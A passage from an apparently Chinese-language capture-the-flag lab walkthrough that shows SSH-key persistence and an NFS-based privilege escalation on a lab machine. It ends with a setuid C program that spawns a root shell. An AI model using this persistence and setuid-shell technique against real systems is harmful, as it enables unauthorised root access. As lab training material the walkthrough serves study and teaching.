 
--------------------------------------------
--------------------------------------------
6、ssh rsa稳定shell
ssh-keygen -t rsa -C john

echo '写入key' > authorized_keys
chmod 600 authorized_keys   ---谨记给权限！
ssh john@192.168.253.229 -i john-key
成功登录！


--------------------------------------------
--------------------------------------------
7、NFS提权（项目二十一、四十都讲解过）
sudo -l 
(root) NOPASSWD: /usr/local/sbin/nfs

sudo提权发现/usr/local/sbin/nfs目录文件可执行root，又是NFS！

sudo /usr/local/sbin/nfs status
Usage: nfs [start|stop]
在最开始nmap枚举端口未发现存在开启nfs端口，这需要开启下：
sudo /usr/local/sbin/nfs start
开启后查看下：
ps aux | grep nfs   ---成功开启
find / -name nfs 2>/dev/null
/opt/nfs   ---发现nfs共享目录

或者：rpcinfo -p 192.168.253.229
showmount -e 192.168.253.229

开始挂载：
mkdir nfs
mount 192.168.253.229:/opt/nfs nfs
mount -t nfs 192.168.253.229:/opt/nfs /tmp/nfs
df   ---成功挂载本地nfs目录


手写shell教过了，用写shell的方法    ----需要注意的是项目是32位的环境，无法运行64位的gcc编译后的！

---
#include <stdlib.h>
int main() { setuid(0); setgid(0); system("/bin/sh"); }
---
nano写入shell.c文件
gcc shell.c -o shell
chmod 4777 shell
./shell
成功提权！

或者：
-----
#include <stdio.h>
